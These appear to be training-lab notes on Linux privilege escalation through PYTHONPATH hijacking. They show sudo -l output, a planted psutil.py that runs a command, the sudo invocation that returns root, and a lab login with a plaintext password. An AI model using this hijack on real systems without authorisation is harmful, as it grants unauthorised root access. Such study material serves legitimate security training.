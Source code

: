 ## PYTHONPATH Environment Variable

PYTHONPATH is an environment variable that indicates what directory (or directories) Python can search for modules to import.

1) Checking sudo permissions

sudo -l 

Matching Defaults entries for htb-student on ACADEMY-LPENIX:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User htb-student may run the following commands on ACADEMY-LPENIX:
    (ALL : ALL) SETENV: NOPASSWD: /usr/bin/python3

2) Privilege Escalation using PYTHONPATH Environment Variable

vi /tmp/psutil.py

#!/usr/bin/env python3

import os

def virtual_memory():
    os.system('id')

sudo PYTHONPATH=/tmp/ /usr/bin/python3 ./mem_status.py

uid=0(root) gid=0(root) groups=0(root)
...SNIP...


## LAB

ssh htb-student@10.129.8.117
HTB_@cademy_stdnt!

ls -l
total 4
-rwSrwxr-x 1 root root 192 May 19  2023 mem_status.py

sudo -l 
Matching Defaults entries for htb-student on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User htb-student may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python3 /home/htb-student/mem_status.py

cat mem_status.py 
#!/usr/bin/env python3
import psutil 

available_memory = psutil.virtual_memory().available * 100 / psutil.virtual_memory().total

print(f"Available memory: {round(available_memory, 2)}%")

